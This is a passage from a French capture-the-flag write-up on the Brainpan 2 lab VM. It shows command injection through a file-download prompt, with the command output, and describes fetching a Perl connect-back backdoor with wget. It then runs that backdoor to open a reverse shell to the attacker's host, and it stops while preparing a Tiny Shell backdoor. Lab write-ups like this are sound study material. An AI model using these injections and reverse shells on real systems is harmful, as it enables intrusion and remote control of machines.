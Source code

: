 La commande sous-jacente est un simple `cat`. Il est donc préférable de lui passer un argument avant le point virgule sinon les process zombies risquent de s'entasser sur la machine virtuelle (car `cat` va attendre des données sur l'entrée standard).  

On passera plutôt nos commandes de cette façon :

```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;id;uname -a;lsb_release -a
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686 GNU/Linux
Distributor ID: Debian
Description:    Debian GNU/Linux 7.2 (wheezy)
Release:        7.2
Codename:       wheezy
```

Il aurait pu être intéressant de tenter de récupérer le binaire en appelant `VIEW` sur `brainpan.exe` mais le serveur n’envoie qu'une partie de l'exécutable s'arrêtant sans doute sur un octet nul.  

Grâce à notre accès particulier, on parvient à déterminer que le programme se trouve dans `/opt/brainpan` qui est un dossier appartement à root mais avec le sticky bit (donc tout le monde peut écrire dedans comme dans `/tmp`).  

On remarque aussi que `wget` est installé :) C'est le moment d'obtenir un accès plus confortable.  

Sur la machine hôte, on lance le web-serveur Python (`python -m SimpleHTTPServer 8000`) puis on récupère une backdoor Perl connect-back en injectant une commande `wget` via `VIEW` sur la machine invitée.  

On ouvre un port via `ncat` sur la machine hôte puis on établit la connexion depuis la machine invitée.  

```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;perl dc.pl 192.168.1.3 9999
Data Cha0s Connect Back Backdoor

[*] Dumping Arguments
[*] Connecting...
[*] Spawning Shell
[*] Datached
```

L'utilisateur `anansi` n'a pas grand-chose dans son dossier personnel : historique vide et pas de dossier `.ssh`.  

D'ailleurs SSH est configuré pour écouter sur l'interface loopback sur le port 2222, ce qui ne nous facilite pas la tache.  

On va plutôt installer un remplaçant de SSH, seulement gcc n'est pas installé sur la machine :(  

On va être obligés de compiler sur la machine hôte puis uploader sur la VM... sauf que je suis en 64bits alors que la Debian est une 32 bits. No problemo !  

On récupère [tsh-0.6 (Tiny Shell)](http://packetstormsecurity.com/files/31650/tsh-0.6.tgz.html), on étudie le `Makefile` et à la section Linux on rajoute `-m32` pour le binaire serveur :
